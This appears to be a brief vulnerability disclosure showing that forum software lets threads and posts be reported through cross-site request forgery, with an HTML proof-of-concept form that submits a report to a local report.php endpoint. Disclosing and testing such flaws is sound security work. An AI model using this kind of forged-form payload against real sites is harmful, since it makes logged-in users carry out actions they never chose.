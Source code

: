 # Report Post CSRF
Allows threads and posts to be reported through CSRF.

## PoC:
```html
<link href="http://localhost/public/themes/Sand/assets/css/sand.css" rel="stylesheet">

<form action="http://localhost/report.php/post/1" id="LAYER_form" method="POST" style="padding: 25px;">
    <label for="reason">Reason</label>
    <textarea name="reason" style="height:150px;width:100%;min-width:100%;max-width:100%;"></textarea>
    <br>
    <input type="submit" name="report" value="Report">
</form>
```

